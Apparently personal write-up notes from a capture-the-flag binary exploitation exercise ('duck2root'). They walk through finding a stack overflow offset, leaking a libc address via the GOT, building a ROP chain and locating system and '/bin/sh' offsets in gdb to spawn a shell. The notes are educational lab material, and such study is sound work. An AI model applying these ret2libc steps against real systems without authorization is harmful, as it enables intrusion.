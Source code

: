 Using `pattern` (similar to metasploit), but before we have to go back to ghidra to configure out how many bytes we want to put in.
Since the allocated buffer is 64, we will put 100 (redounded to the hundreds)
`pattern create 100` (creates a "De Bruijn sequence" with 100 bytes)
run the program again with `r` and input that sequence
see that rsp is pointing to our string
`pattern offset $rsp`
```
[+] Found at offset 72 (little-endian search) likely
```
check if its overflowing: `pattern create 72`, run the program again with `r` and input that sequence with 8 more A's to see that the rsp is overflowing with our payload (8 A's)


back to ghidra and we go to the printf -> 2x click -> .plt (search for printf) -> .got.plt section -> search for printf
We want to find a way to print the value of the adress of printf -> search for puts or printf (only function we have that we know the address of) -> will allow us to leak memory
(value after the printf function is the GOT) we have a value inside our binary that we know a libc address is gonna exist

ROPgadgets is sequence of instructions that end in a return instruction. 
We can use Ghidra (manual), or ropper / ropgadget (tools)
With ROPgadget: `ROPgadget --binary duck2root`

Now we go back to ghidra in our vuln program, and look for the suspected function and click on return, and see the address `00400770`

Now we debug our ROPchain `gdb.attach(p)`
and set a breakpoint to that address `b *0x400770`
and `c` for continue
`si` to go the next instruction
until we reach `0x400914 <__libc_csu_init+0064> ret`
examine what is rdi `x/gx $rdi`
everything should be right
with gdb, set breakpoint in main `b main` and continue `c`
See the leaked address (in our script), copy it and examine it in gdb `x 0x7f798ac7bf30`
it should say printf

run the script, it opens a gdb window, input `c` 
and `telescope $rsp-32` (find our payload)
(Something is wrong)
We now want to know what is the layout of the stack before and after we put our payload
Run the script, it opens a gdb window, set 2 breakpoints: 1: `b vulnerable_function`,
`disassemble vulnerable_function`, (grab address of ret instruction), and 2:`b *0x400770`
`c` for continue, and its gonna leak our ROPchain, `si`, `enter`, until we reach 
`0x400914 <__libc_csu_init+0064> ret` (puts), and see that rdi prints our printf function
`c` continue, back to our script and see that it leaked the address,
check leaked address `x 0x7fae1f688540` (0x7fae1f688540 was the address that was leaked),
it gives this `0x7fae1f688540 <__printf>:        0x002000ba` (as we intended),
and with `vm` check that the libc address (2nd address in the script) is in libc.so.6 's path
`p system - 0x00007fae1f600000` (libc address above), check that it matches our system_offset

everything is good, `si`, `ni` (next instruction), go right before it calls scanf (that will receive our input), stop at `0x4006fe <do_stuff+0026>  call   0x400580 <__isoc99_scanf@plt>`
copy the rsi value `0x00007fff0399ef80`, `ni`, `telescope 0x00007fff0399ef80` (see that it has our payload), `telescope 0x00007fff0399ef80 -l 64` (to see more),
after the `pop rdi` instruction it should have our /bin/sh but it doesn't, so our /bin/sh is wrong
`grep /bin/sh` (look for /bin/sh), we get 
`0x7fae1f7b40fa - 0x7fae1f7b4101  →   "/bin/sh"`, 
`x/s 0x7fae1f7b40fa` (see that we get string /bin/sh), `0x7fae1f7b40fa: "/bin/sh"`
(find the /bin/sh offset) `p 0x7fae1f7b40fa - 0x00007fae1f600000` (p 0x00007fae1f600000 from libc address 12 above), we get `$2 = 0x1b40fa` (check that it matches our bin_sh_offset)
